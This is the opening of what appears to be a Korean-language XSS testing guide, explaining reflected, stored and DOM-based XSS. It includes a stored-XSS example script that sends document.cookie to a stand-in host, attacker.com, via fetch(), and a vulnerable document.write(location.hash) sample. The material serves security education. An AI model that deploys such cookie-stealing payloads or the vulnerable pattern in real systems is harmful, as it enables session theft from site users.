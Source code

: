 # XSS 테스팅 가이드

## 목차
1. [정의&원리](#1-정의원리)
2. [기본 페이로드](#2-기본-페이로드)
3. [특수 페이로드](#3-특수-페이로드)
4. [조치 가이드](#4-조치-가이드)

---

## 1. 정의&원리

### XSS(Cross-Site Scripting)란?
웹 애플리케이션에서 사용자 입력값에 대한 적절한 검증이나 인코딩 없이 출력할 때 발생하는 취약점으로, 공격자가 악성 스크립트를 삽입하여 다른 사용자의 브라우저에서 실행시킬 수 있는 보안 취약점입니다.

### XSS 공격 유형

#### 1.1. Reflected XSS (반사형)
- 사용자 입력값이 즉시 응답에 반영되어 발생
- URL 파라미터나 폼 입력을 통해 공격
- 피해자가 특별히 조작된 링크를 클릭해야 함

**예시 시나리오:**
```
http://example.com/search?q=<script>alert('XSS')</script>
```

#### 1.2. Stored XSS (저장형)
- 악성 스크립트가 서버 데이터베이스에 저장
- 다른 사용자들이 해당 페이지 방문 시마다 실행
- 게시판, 댓글, 프로필 등에서 주로 발생

**예시 시나리오:**
```html
<!-- 게시판 댓글에 저장된 악성 스크립트 -->
<script>
    // 사용자 쿠키 탈취
    fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

#### 1.3. DOM-based XSS
- 클라이언트 측 JavaScript DOM 조작 시 발생
- 서버를 거치지 않고 브라우저에서만 발생
- `document.write()`, `innerHTML` 등 위험한 함수 사용 시

**예시 시나리오:**
```javascript
// 취약한 코드
var hash = location.hash;
document.write(hash); // #<script>alert('XSS')</script>
```

